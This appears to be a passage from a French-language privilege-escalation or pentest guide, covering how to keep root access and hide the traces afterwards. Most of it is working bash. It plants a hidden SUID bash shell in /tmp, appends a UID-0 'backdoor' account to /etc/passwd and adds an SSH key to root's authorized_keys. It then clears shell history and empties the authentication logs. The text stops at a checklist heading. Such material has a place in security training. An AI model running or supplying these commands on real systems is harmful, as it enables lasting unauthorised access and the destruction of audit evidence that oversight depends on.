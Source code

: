 ### **Maintenir l'accès root**

#### **Backdoor via SUID**
```bash
# Copie de bash avec SUID
cp /bin/bash /tmp/.hidden_shell
chmod 4755 /tmp/.hidden_shell

# Utilisation
/tmp/.hidden_shell -p
```

#### **Ajouter utilisateur root**
```bash
# Créer hash de mot de passe
openssl passwd -1 -salt salt motdepasse

# Ajouter dans /etc/passwd
echo 'backdoor:$1$salt$hash:0:0:root:/root:/bin/bash' >> /etc/passwd
```

#### **Clé SSH pour root**
```bash
# Générer paire de clés
ssh-keygen -t rsa -f /tmp/backdoor_key

# Ajouter clé publique pour root
mkdir -p /root/.ssh
cat /tmp/backdoor_key.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh

# Connexion
ssh -i /tmp/backdoor_key root@target
```

### **Nettoyage des traces**
```bash
# Nettoyer historique
history -c
echo "" > ~/.bash_history

# Nettoyer logs
echo "" > /var/log/auth.log
echo "" > /var/log/secure

# Nettoyer fichiers temporaires
rm -rf /tmp/linpeas.sh /tmp/exploit.c
```

## 📋 Checklist Escalade de Privilèges
